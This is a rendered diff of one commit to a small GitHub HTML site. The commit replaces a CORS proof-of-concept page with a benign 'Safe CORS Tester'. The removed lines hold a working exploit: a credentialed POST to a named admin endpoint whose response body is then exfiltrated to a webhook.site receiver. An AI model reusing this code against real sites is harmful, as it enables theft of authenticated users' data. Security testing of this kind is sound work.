

Before and after one commit to prabhat-np/cors, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,48 +1,240 @@
 <!doctype html>
-<html>
-<head><meta charset="utf-8"><title>CORS PoC — exfil body</title></head>
+<html lang="en">
+<head>
+  <meta charset="utf-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1" />
+  <title>Safe CORS Tester</title>
+  <style>
+    /* Global Styles */
+    * {
+      margin: 0;
+      padding: 0;
+      box-sizing: border-box;
+    }
+
+    body {
+      font-family: 'Inter', sans-serif;
+      background: linear-gradient(135deg, #ff7b00, #ff2a68);
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      color: #fff;
+      font-size: 16px;
+    }
+
+    .container {
+      background-color: #2e2e2e;
+      padding: 2rem 2.5rem;
+      border-radius: 10px;
+      box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
+      width: 100%;
+      max-width: 600px;
+      text-align: center;
+    }
+
+    h1 {
+      font-size: 2rem;
+      margin-bottom: 1rem;
+      color: #fff;
+      text-transform: uppercase;
+      letter-spacing: 1px;
+    }
+
+    .note {
+      font-size: 0.9rem;
+      color: #ddd;
+      margin-bottom: 1.5rem;
+    }
+
+    .input-group {
+      margin-bottom: 1.5rem;
+    }
+
+    .input-group input[type="url"] {
+      padding: 0.8rem 1rem;
+      font-size: 1.1rem;
+      border-radius: 8px;
+      border: none;
+      width: 100%;
+      margin-bottom: 0.8rem;
+      outline: none;
+      background-color: #444;
+      color: #fff;
+      transition: all 0.3s ease;
+    }
+
+    .input-group input[type="url"]:focus {
+      background-color: #666;
+      box-shadow: 0 0 10px rgba(255, 255, 255, 0.5);
+    }
+
+    .input-group button {
+      padding: 0.9rem 1.2rem;
+      font-size: 1.1rem;
+      border-radius: 6px;
+      border: none;
+      cursor: pointer;
+      margin-top: 1rem;
+      background: #ff7b00;
+      color: #fff;
+      width: 48%;
+      margin-right: 2%;
+      transition: all 0.3s ease;
+    }
+
+    .input-group button:hover {
+      background: #ff541c;
+    }
+
+    .checkbox-group {
+      display: flex;
+      justify-content: center;
+      margin-bottom: 1.5rem;
+    }
+
+    .checkbox-group input {
+      margin-right: 8px;
+    }
+
+    .output {
+      background-color: #333;
+      padding: 1.2rem;
+      border-radius: 8px;
+      border: 1px solid #444;
+      max-height: 250px;
+      overflow-y: auto;
+      word-wrap: break-word;
+      white-space: pre-wrap;
+      font-size: 1rem;
+      color: #ddd;
+      margin-bottom: 1.5rem;
+    }
+
+    .status {
+      display: flex;
+      justify-content: space-between;
+      font-size: 1.1rem;
+      margin-bottom: 1.2rem;
+      color: #fff;
+    }
+
+    .status span {
+      font-weight: 600;
+    }
+
+    footer {
+      text-align: center;
+      font-size: 0.85rem;
+      color: #bbb;
+    }
+
+    footer a {
+      color: #ff7b00;
+      text-decoration: none;
+    }
+
+    footer a:hover {
+      text-decoration: underline;
+    }
+
+    /* Animation */
+    .fadeIn {
+      animation: fadeIn 1s ease-in-out;
+    }
+
+    @keyframes fadeIn {
+      0% {
+        opacity: 0;
+      }
+      100% {
+        opacity: 1;
+      }
+    }
+
+    /* Button Styles */
+    .button-group {
+      display: flex;
+      justify-content: space-between;
+    }
+  </style>
+</head>
+
 <body>
-<h3>CORS PoC — exfiltrate response body</h3>
-<button id="go">Run PoC</button>
-<pre id="out"></pre>
-<script>
-const TARGET = "https://admin.aakashpay.com/_app/admin/new/admin/";
-const RECEIVER = "https://webhook.site/0fd36535-ea21-4921-a838-dc158ef52167";
+  <div class="container fadeIn">
+    <h1>Safe CORS Tester</h1>
+    <p class="note">Test CORS responses safely by entering an endpoint URL you control.</p>
 
-function log(s){ document.getElementById('out').textContent += s + "\n"; }
+    <div class="input-group">
+      <input id="url" type="url" placeholder="https://api.example.com/test" />
+      <div class="button-group">
+        <button id="fetchBtn">Fetch (Mode: CORS)</button>
+        <button id="curlBtn" title="Copy Curl Command">Copy cURL</button>
+      </div>
+    </div>
 
-document.getElementById('go').onclick = async () => {
-  document.getElementById('out').textContent = "";
-  log("page origin: " + location.origin);
-  try {
-    const resp = await fetch(TARGET, {
-      method: "POST",
-      credentials: "include",
-      headers: { "Accept": "application/json"}
+    <div class="checkbox-group">
+      <input id="creds" type="checkbox" />
+      <label for="creds" style="color: #fff;">Include credentials (cookies/HTTP auth)</label>
+    </div>
+
+    <div class="status">
+      <span>Status: <span id="status">—</span></span>
+      <span>Type: <span id="type">—</span></span>
+    </div>
+
+    <h4 style="color: #fff;">Response Body (First 200 KB)</h4>
+    <div id="out" class="output">—</div>
+
+    <footer>
+      <p>Only test endpoints you own or have permission to test. <br/> Built with ❤️ by <a href="https://prabhhat.com" target="_blank">Prabhhat</a></p>
+    </footer>
+  </div>
+
+  <script>
+    const fetchBtn = document.getElementById('fetchBtn');
+    const curlBtn = document.getElementById('curlBtn');
+    const out = document.getElementById('out');
+    const statusEl = document.getElementById('status');
+    const typeEl = document.getElementById('type');
+
+    fetchBtn.addEventListener('click', async () => {
+      out.textContent = 'Fetching...';
+      statusEl.textContent = '—';
+      typeEl.textContent = '—';
+      try {
+        const url = document.getElementById('url').value.trim();
+        if (!url) { out.textContent = 'Please enter a valid URL you control.'; return; }
+        const useCreds = document.getElementById('creds').checked;
+        const resp = await fetch(url, {
+          mode: 'cors',
+          credentials: useCreds ? 'include' : 'omit',
+          cache: 'no-store'
+        });
+
+        statusEl.textContent = resp.status + ' ' + resp.statusText;
+        typeEl.textContent = resp.type;
+
+        // Try to display text. If binary, show notice.
+        const ct = resp.headers.get('content-type') || '';
+        if (ct.includes('application/json') || ct.startsWith('text/') || ct.includes('xml')) {
+          const text = await resp.text();
+          out.textContent = text.slice(0, 200000);
+        } else {
+          out.textContent = 'Received response with Content-Type: ' + ct + '. This tester displays text-like bodies only.';
+        }
+      } catch (err) {
+        out.textContent = 'Error: ' + err.message + '\n\nOpen DevTools → Console/Network for more details.';
+      }
     });
-    log("Fetch resolved: status=" + resp.status + " ok=" + resp.ok);
-    log("Response headers:");
-    for (const [k,v] of resp.headers) log(k + ": " + v);
 
-    const body = await resp.text();
-    log("Body :\n" + body);
-    log("Cookie" + document.cookie)
-
-    try {
-      await fetch(RECEIVER, {
-        method: "POST",
-        mode: "no-cors",
-        body: "exfil=" + encodeURIComponent(body)
-      });
-      log("Exfil attempted to webhook.site");
-    } catch (e) {
-      log("Exfil fetch error: " + e);
-    }
-  } catch (e) {
-    log("Fetch error: " + e);
-    log("See DevTools Network for more details (request headers, status, and OPTIONS).");
-  }
-};
-</script>
+    curlBtn.addEventListener('click', () => {
+      const url = document.getElementById('url').value.trim();
+      if (!url) { alert('Enter a URL first'); return; }
+      const useCreds = document.getElementById('creds').checked;
+      const curl = useCreds ? `curl -i -c cookies.txt -b cookies.txt "${url}"` : `curl -i "${url}"`;
+      navigator.clipboard.writeText(curl).then(() => alert('cURL command copied to clipboard'));
+    });
+  </script>
 </body>
 </html>
```
